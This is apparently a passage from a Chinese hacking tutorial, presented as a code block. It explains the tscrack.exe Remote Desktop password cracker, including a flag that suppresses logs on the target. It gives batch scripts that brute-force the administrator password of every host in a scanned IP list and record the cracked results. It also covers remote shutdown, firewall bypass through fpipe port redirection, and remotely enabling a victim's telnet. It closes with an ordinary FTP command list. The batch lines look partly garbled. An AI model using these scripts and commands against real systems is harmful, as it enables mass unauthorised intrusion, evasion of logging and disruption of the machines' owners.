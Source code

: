 ```
　　终端服务密码破解: tscrack.exe
　　参数说明
　　-h 显示使用帮助
　　-v 显示版本信息
　　-s 在屏幕上打出解密能力
　　-b 密码错误时发出的声音
　　-t 同是发出多个连接（多线程）
　　-N Prevent System Log entries on targeted server
　　-U 卸载移除tscrack组件
　　-f 使用－f后面的密码
　　-F 间隔时间（频率）
　　-l 使用－l后面的用户名
　　-w 使用－w后面的密码字典
　　-p 使用－p后面的密码
　　-D 登录主页面
　　用法示例
　　tscrack 192.168.0.1 -l administrator -w pass.dic 远程用密码字典文件暴破主机的administrator的登陆密码
　　tscrack 192.168.0.1 -l administrator -p 123456 用密码123456远程登陆192.168.0.1的administrator用户
　　@if not exist ipcscan.txt goto noscan
　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
　　nscan
　　@echo 3389.txt no find or scan faild
　　(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
　　3389.bat意思是：从3389.txt文件中取一个IP，接着运行hack.bat
　　@if not exist tscrack.exe goto noscan
　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt
　　:noscan
　　@echo tscrack.exe no find or scan faild
　　(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
　　其它
　　Shutdown.exe
　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）
　　fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）
　　fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
　　Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。
　　OpenTelnet.exe (远程开启telnet工具)
　　opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。
　　NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。
　　ResumeTelnet.exe (OpenTelnet附带的另一个工具)
　　resumetelnet.exe IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。
　　FTP命令详解
　　FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台FTP下载，那么就必须学习FTP指令。
　　FTP的命令行格式为：
　　ftp -v -d -i -n -g [主机名] ，其中
　　-v 显示远程服务器的所有响应信息
　　-n 限制ftp的自动登录，即不使用；.n etrc文件；
　　-d 使用调试方式；
　　-g 取消全局文件名。
　　FTP使用的内部命令如下(中括号表示可选项):
　　1.![cmd[args]]：在本地机中执行交互shell，exit回到ftp环境，如：!ls*.zip
　　2.$ macro-ame[args]： 执行宏定义macro-name。
　　3.account[password]： 提供登录远程系统成功后访问系统资源所需的补充口令。
　　4.append local-file[remote-file]：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。
　　5.ascii：使用ascii类型传输方式。
　　6.bell：每个命令执行完毕后计算机响铃一次。
　　7.bin：使用二进制文件传输方式。
　　8.bye：退出ftp会话过程。
　　9.case：在使用mget时，将远程主机文件名中的大写转为小写字母。
　　10. cd remote-dir：进入远程主机目录。
```